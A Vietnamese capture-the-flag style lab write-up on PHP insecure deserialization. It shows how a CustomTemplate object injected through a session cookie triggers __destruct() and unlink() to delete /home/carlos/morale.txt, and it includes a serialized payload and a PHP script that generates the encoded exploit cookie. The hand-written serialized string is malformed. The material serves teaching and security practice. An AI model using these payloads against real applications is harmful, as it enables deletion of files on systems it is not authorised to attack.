 <ul>
    file định nghĩa 1 class:
    <li>có 2 biến là $template_file_path, $lock_file_path</li>
    <li>đầu tiên đối tượng được tạo sẽ được khởi tạo giá trị: lock_file_path = $template_file_path . ".lock"</li>
    <li>Ta chỉ cần quan tâm magic method __destruct() khi nó thực hiện xóa file tại lock_file_path nếu nó tồn tại. Mặt khác __destruct() sẽ được gọi là server thực hiện deserialize.</li>
</ul>

Trong ngôn ngữ lập trình PHP, \_\_destruct() là một phương thức đặc biệt trong các lớp (classes) được sử dụng để thực hiện các công việc cuối cùng trước khi một đối tượng bị hủy (destroyed). Phương thức này tự động được gọi khi không còn đối tượng nào tham chiếu đến một đối tượng cụ thể nữa hoặc khi chương trình kết thúc.

Mục tiêu chính của \_\_destruct() là để giải phóng bất kỳ tài nguyên nào mà đối tượng có thể giữ, như đóng kết nối cơ sở dữ liệu, đóng tệp, giải phóng bộ nhớ, hoặc thực hiện bất kỳ việc dọn dẹp nào khác cần thiết trước khi đối tượng bị hủy.

```php!
function __destruct() {
    // Carlos thought this would be a good idea
    if (file_exists($this->lock_file_path)) {
        unlink($this->lock_file_path);
    }
}
```

- Đọc hiểu luồng hoạt động của phương thức: Nếu tồn tại tệp tin có đường dẫn $this->lock_file_path sẽ thực hiện hàm unlink() xóa tệp tin này. Ý tưởng đã khá rõ ràng, nếu kẻ tấn công có thể lợi dụng quá trình deserialization của ứng dụng nhằm xóa bất kỳ tệp tin nào trong hệ thống nếu họ biết chính xác đường dẫn.
<ul>
    <li>Ta có thể tận dụng session cookie để thực hiện Object Injection như sau:</li>
</ul>

```
O:14:"CustomTemplate":1{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}
```

Server sẽ thực hiện deserialize CustomTemplate object trên → hàm \_\_destruct() được kích hoạt → file /home/carlos/morale.txt bị xóa.

Gửi request với session cookie mới. Mặc dù server trả 500 vì invalid user nhưng payload trên đã được deserialize

![image](https://hackmd.io/_uploads/B1Nc0buFp.png)

Xây dựng script tạo payload xóa tệp tin /home/carlos/morale.txt do bài lab yêu cầu:

```php!
class CustomTemplate {
    private $template_file_path;
    private $lock_file_path = "/home/carlos/morale.txt";
}

$payload = new CustomTemplate();
echo urlencode(base64_encode(serialize($payload)));
// TzoxNDoiQ3VzdG9tVGVtcGxhdGUiOjI6e3M6MzQ6IgBDdXN0b21UZW1wbGF0ZQB0ZW1wbGF0ZV9maWxlX3BhdGgiO047czozMDoiAEN1c3RvbVRlbXBsYXRlAGxvY2tfZmlsZV9wYXRoIjtzOjIzOiIvaG9tZS9jYXJsb3MvbW9yYWxlLnR4dCI7fQ%3D%3D
```
